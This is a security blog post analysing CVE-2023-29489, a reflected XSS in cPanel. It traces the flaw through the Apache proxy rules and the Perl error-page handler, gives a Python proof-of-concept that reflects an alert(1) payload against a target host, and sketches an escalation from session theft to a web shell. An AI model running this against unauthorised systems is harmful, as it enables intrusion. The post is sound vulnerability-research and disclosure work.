 ```yaml
---
layout: post
title: "Analysis of CVE-2023-29489: Reflected XSS in cPanel"
date: 2024-09-10
---
```


The CVE-2023-29489[1] refers to a reflected Cross-Site Scripting (XSS)[2] vulnerability identified in the cPanel[3] web hosting control panel software, which is widely used on the web. The XSS vulnerability allows an attacker to execute malicious scripts on a page being accessed by other users. The attacker does not need to be authenticated in order to do that.

This vulnerability was identified on April 26, 2023, by the Assetnote's[4] security team, an Australian security company. The vulnerability affects versions of cPanel prior to 11.109.9999.116 and was fixed in versions 11.109.9999.116, 11.108.0.13, 11.106.0.18, and 11.102.0.31 or later versions.

This publication is also disponible in: [Portuguese](https://blog.lesis.lat/blog/CVE-2023-29489/)

---

### Description

The cPanel software is written in Perl[5], with binaries generated from Perl code. Based on the binaries accessible in the **/cgi-sys/** directory on the management ports, it becomes evident that these binaries were originally Perl code and are remotely called via HTTP requests.

Besides the binaries inside **/cgi-sys/**, some cPanel functionalities and web applications are served through the cpsrvd binary. The cpsrvd binary runs by default on ports: 2082, 2083, 2086, 2087. For this, cPanel uses Apache's[6] reverse proxy features, and the configuration for this can be found in **/etc/apache2/conf/httpd/conf/**. These proxying and script aliasing configurations define areas that are potentially interesting for attacks:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

The file **Cpanel/Server/Handlers/Httpd.pm** has a specific logic related to path handling. This allowed for the mapping of attack surfaces. Within httpd.pm, there is a code snippet that routes all requests from a path beginning with **/panelwebcall** to a function called **_server_cpanelwebcall**, which in turn calls another function, **Chanel::Server::WebCalls::handle**, with a portion of the URL as an argument:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


The function **_serve_cpanelwebcall** looks like this:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Which leads us to the function **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

The `handle` function extracts an ID from the request and then modifies the request by removing the ID. If the ID is not valid, it generates an error indicating the invalid request. When the error occurs, the function **_httpd_invalid_params_err** is called, which creates an exception called **cpsrvd::BadRequest** that leads to the **Cpanel::Server::Handlers::ErrorPage** module. Within this module, there is a variable called **message_html**. The vulnerability lies in this variable because it does not sanitize the error message when inserting the invalid ID.

---

### Proof of Concept

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impact

The impact of this vulnerability allows an attacker to execute arbitrary JavaScript code, without being authenticated, on nearly any port of a web server running cPanel. 

This happens due to the proxy rules permitting access to the **/cpanel/** directory through ports 80 and 443, as requests are redirected by Apache to the cPanel management ports.

The fact that the cPanel management ports are vulnerable to XSS allows an attacker to steal a legitimate user's session. Once authenticated as a legitimate user, it is possible to upload a web shell[7] and gain remote command execution on the server.

Therefore, the vulnerability poses a significant threat to the application's security, and it is highly recommended that system administrators update to the latest version.

---

### Conclusion

The cPanel version discussed here has a vulnerable surface that allows an attacker to execute malicious scripts on pages accessed by regular users, without requiring authentication to exploit it. This vulnerability can be exploited regardless of whether the cPanel ports (2080, 2082, 2083, 2086) are exposed externally.

Exploiting this vulnerability can lead to arbitrary JavaScript code execution on nearly all ports of a web server running cPanel. This occurs due to proxy rules that permit access to the **/cpanel/** directory even through ports 80 and 443, with requests being redirected to the cPanel management ports by Apache's proxy configuration.

The vulnerability was addressed with patches available in versions after cPanel 11.109.9999.116. It is crucial for system administrators to update their systems to the latest version of cPanel and apply the available patches to mitigate the threats.

---

- This article was written by **Lucas Katashi**, who currently works as a pentester and is passionate about Red Teaming. He enjoys coding tools and considers Burp Suite his best friend.

- The translation was done by **Giovanni Sagioro**: a Computer Science student, seeker of the Perl wisdom, and security researcher. Focused on application security, vulnerability discovery, and exploit development. As Larry Wall says—‘Easy things should be easy, and hard things should be possible’—so I’m trying to make the hard things possible.

---

### References

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
